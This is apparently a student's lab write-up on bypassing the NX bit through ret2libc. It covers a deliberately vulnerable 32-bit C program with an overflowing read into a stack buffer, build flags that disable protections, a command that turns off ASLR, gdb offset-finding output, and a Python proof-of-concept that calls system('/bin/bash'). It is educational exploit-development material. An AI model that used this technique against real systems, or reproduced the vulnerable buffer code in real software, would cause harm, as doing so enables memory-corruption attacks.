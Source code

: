 # 1. What is No Execute
- The NX bit (no-execute) is a technology used in CPUs to segregate areas of memory for use by either storage of processor instructions (code) or for storage of data, a feature normally only found in Harvard architecture processors. However, the NX bit is being increasingly used in conventional von Neumann architecture processors for security reasons.

- Return to library C (ret2libc) and return to system (ret2sys) are technique usally use to bypass the No Execution bit and is the technique I'll use in this report.
---
# 2. NX Bypass
## 2.1 Building Up Environment

This is the source code we will use for exploit example:

```c
#include <stdio.h>
#include <unistd.h>

int overflow(){
  char buf[500];
  int userinput;
  userinput = read(0, buf, 700);
  printf("\nUser provided %d bytes.\nBuffer content is: %s\n", userinput, buf);
  return 0;
}

int main(){
  overflow();
  return 0;
}
```

Build the source code:

```bash
gcc vulnerable.c -m32 -fno-stack-protector -o vulnerable
```

Make sure, the machine has already turned off the ASLR. To turn off it:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Using **checksec** to make sure that only Stack Canary is disabled

![image1.png](image1.png)

## 2.2. Getting An Interesting Target
First up, I know the program have buffer size is 500, so let's try to make it crashing 500 buffer ``python -c 'print("A"*700)' | ./vulnerable``.

![image2.png](image2.png)

Nothing happned, so try bigger size to see length make crashing:

![image3.png](image3.png)

Opening debugger to debug the program, in here I will use the gdb-peda to debug and using peda's feature to make pattern and get the exact size the program crashed **(You can also use msf-pattern_create and msf-pattern_offset)**.

![image4.png](image4.png)

![image5.png](image5.png)

## 2.3. Getting Return Address
Making a string to determine where is the start of buffer 'A':
- `python -c "print('A'*516+'B'*4)" > input.txt`

![image6.png](image6.png)

![image7.png](image7.png)

So, **0xffffd088** is where the buffer start at. So we will make a script to spawn the buffer and last 4 byte will be the returned address which we got above.

```python
#!/usr/bin/python2
from struct import pack

payload = ''
payload += 'A'*516
payload += pack('<I', 0xffffd088) # Start of A character

print payload
open('input.txt', 'wb').write(payload)
```

Run the file in gdb and determine if the program crashed ad  **0x41414141** or not:

```bash
gdb-peda$ r < input.txt
Starting program: vulnerable < input.txt

User provided 520 bytes.
Buffer content is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x41414141 ('AAAA')
ECX: 0x0
EDX: 0x1
ESI: 0xf7fa6000 --> 0x1e4d6c
EDI: 0xf7fa6000 --> 0x1e4d6c
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd290 --> 0xf7fa6000 --> 0x1e4d6c
EIP: 0xffffd088 ('A' <repeats 200 times>...)
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
=> 0xffffd088:  inc    ecx
   0xffffd089:  inc    ecx
   0xffffd08a:  inc    ecx
   0xffffd08b:  inc    ecx
[------------------------------------stack-------------------------------------]
0000| 0xffffd290 --> 0xf7fa6000 --> 0x1e4d6c
0004| 0xffffd294 --> 0xf7fa6000 --> 0x1e4d6c
0008| 0xffffd298 --> 0x0
0012| 0xffffd29c --> 0xf7ddfe46 (<__libc_start_main+262>:       add    esp,0x10)
0016| 0xffffd2a0 --> 0x1
0020| 0xffffd2a4 --> 0xffffd344 --> 0xffffd4b8 ("/home/th3knight/Desktop/learning/shellcoding/ine/DEP/vulnerable")
0024| 0xffffd2a8 --> 0xffffd34c --> 0xffffd4f8 ("SHELL=/bin/bash")
0028| 0xffffd2ac --> 0xffffd2d4 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0xffffd088 in ?? ()
```

The program crashed with **0xffffd088** with no reason. This is because of NX bit is enabled so this will kill when user tried to execute from their inputted data. Re run the debugger, breakpoint at main `br *main`, and run.

The technique of ret2libc will be:
- Buffer_size + Execution_function_address + Return_address + Arguments_address 

Quick taking address of system `print system`, exit `print exit` and arguments `find "/bin/bash"` export these address.

![image8.png](image8.png)

## 2.4 Proof of Concept (PoC)

```python
#!/usr/bin/python2

from struct import pack

payload = ''
payload += 'A'*516
payload += pack('<I', 0xf7e06000) # System_func address @@ exec_function
payload += pack('<I', 0xf7df8950) # Exit_func address @@ ret_func
payload += pack('<I', 0xf7f4d338) # Arguments address

print payload
```

![image9.png](image9.png)

Nothing happended, because there is no listener to keep and get the input, output. So we will use the cat to be that listener.
- `(./exploit.py ; cat) | ./vulnerable`

![image10.png](image10.png)

---
# 3. Reference
- [https://en.wikipedia.org/wiki/NX_bit](https://en.wikipedia.org/wiki/NX_bit)
- [https://my.ine.com/CyberSecurity/courses/eb1c83e7/linux-exploit-development](https://my.ine.com/CyberSecurity/courses/eb1c83e7/linux-exploit-development)
---
